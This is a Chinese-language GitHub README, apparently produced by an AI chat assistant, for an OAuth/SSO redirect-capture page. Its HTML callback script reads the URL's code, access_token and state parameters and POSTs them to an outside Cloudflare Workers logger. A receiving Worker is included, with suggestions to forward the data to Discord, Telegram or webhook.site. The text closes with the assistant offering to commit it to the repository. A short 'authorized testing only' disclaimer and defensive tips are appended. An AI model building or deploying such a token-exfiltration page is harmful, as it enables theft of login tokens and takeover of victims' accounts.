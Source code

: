 # oauth-test-redirect
好的，以下是专门为你当前使用 Cloudflare Workers 收集 OAuth/SSO 跳转信息的项目编写的 `README.md` 文件，可直接放入你的 GitHub 仓库中：

---

### 📄 README.md

````markdown
# OAuth Redirect Code 捕获页面

本项目用于测试 OAuth / SSO 劫持类漏洞，通过跳转到本页面来自动捕获 URL 中的 `code`、`access_token`、`state` 等参数，并将其发送至 Cloudflare Workers 后端接口用于记录。

## 🎯 使用场景

- OAuth 隐式授权模式（使用 `#access_token=xxx`）
- OAuth 授权码模式（使用 `?code=xxx&state=yyy`）
- SSO 登录回调参数拦截测试
- 用于白帽测试、漏洞验证等合法授权目的

## 🚀 如何部署

### 1. 前端页面（callback.html）

将以下 HTML 页面托管在 GitHub Pages（或任意支持静态托管的平台）：

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"><title>OAuth</title></head>
<body>
<script>
  (function () {
    const data = {
      href: location.href,
      hash: location.hash,
      search: location.search
    };
    fetch("https://oauth-logger.1478972479.workers.dev/", {
      method: "POST",
      headers: {
        "Content-Type": "application/json"
      },
      body: JSON.stringify(data)
    });
  })();
</script>
</body>
</html>
````

> 📌 示例部署地址：[https://githubkey.github.io/oauth-test-redirect/callback.html](https://githubkey.github.io/oauth-test-redirect/callback.html)

### 2. Cloudflare Workers 后端（用于接收数据）

* 在 [Cloudflare Workers](https://workers.cloudflare.com/) 控制台新建一个 Worker
* 配置脚本如下：

```js
export default {
  async fetch(request) {
    const body = await request.text();
    console.log("📥 OAuth Redirect Data:", body);
    return new Response("OK");
  }
}
```

你也可以添加更详细的日志记录逻辑，比如转发到 Discord、Telegram、Webhook.site、存数据库等。

## 🛡️ 安全说明

⚠️ 本工具仅供授权测试用途（如 SRC、渗透演示、课堂教学），禁止用于非法活动。

如果你是开发者或安全团队，请确保你的 OAuth 实现中：

* 不允许任意 `redirect_uri` 外部跳转
* 验证 `state` 参数是否一致
* 避免泄露 `code` / `access_token` 到第三方页面

## 📬 联系

由白帽安全研究者部署与测试。如需协助或演示，请联系项目作者。

```

---

需要我顺便帮你把这个 `README.md` 提交到 GitHub 仓库中？你也可以把上面的内容直接复制粘贴到 GitHub 网页端的“创建新文件”页面中。需要帮忙操作的也可以说。
```

